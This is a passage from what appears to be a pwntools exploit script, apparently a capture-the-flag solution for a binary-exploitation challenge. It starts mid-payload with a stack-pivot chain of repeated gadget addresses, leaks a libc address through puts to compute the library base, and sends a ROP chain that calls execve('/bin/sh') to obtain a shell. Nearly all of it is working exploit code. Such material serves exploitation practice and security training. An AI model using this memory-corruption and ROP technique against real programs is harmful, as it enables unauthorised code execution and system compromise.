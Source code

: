```python
        leave_ret   # leave ; ret
    ],
    0x20: elf.sym.print + 0x20,  # RBP --> @puts+0x20
    0x28: [
        0x401227, # increasing the stack space
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x0000000000401211,
        elf.sym.main] # This is the value at address 0x0000000000404150
})
log.info(f'Sending payload: {payload}')
log.info(f'length: {len(payload)} bytes')
log.info(f'RBP({hex(0x404038) }) + LEN({hex(len(payload)-16)}) = {hex(0x404038 + len(payload)-16)} Main address in .bss: {hex(0x404150)}')
p.sendline(payload)

p.recvline()
p.recvline()
# p.recvline()
libc_leak = u64(p.recvline().strip().ljust(8, b'\x00'))
libc.address = libc_leak - libc.sym.puts
log.success(f'{hex(libc.address) = }')

rop = ROP(libc)
rop.rdi = next(libc.search(b'/bin/sh\x00'))
rop.rsi = 0
rop.rbp = 0x404198
rop.raw(libc.address + 0x00000000000981ad) # pop rdx ; leave ; ret
rop.raw(0)
rop.execve()

print(rop.dump())

p.sendline(flat({
    0x28: rop.chain()
}))
```